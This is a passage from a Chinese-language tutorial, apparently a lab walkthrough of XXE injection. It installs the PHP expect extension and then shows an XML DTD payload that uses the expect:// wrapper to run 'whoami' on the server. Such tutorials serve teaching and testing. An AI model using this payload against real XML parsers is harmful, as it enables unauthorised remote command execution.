 ![image-20220406193622524](../../images//image-20220406193622524.png)

回车确认配置目录，需要修改配置输入标号后即可设置，yum安装的可以直接回车

```shell
pecl search expect
pecl install expect
echo "extension=expect.so" >> /etc/php.ini
systemctl restart httpd
```

![image-20220406194419363](../../images//image-20220406194419363.png)

#### 4.2 构造命令执行

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY Fsec.io SYSTEM "expect://whoami" >]>
<creds>&Fsec.io;</creds>
```
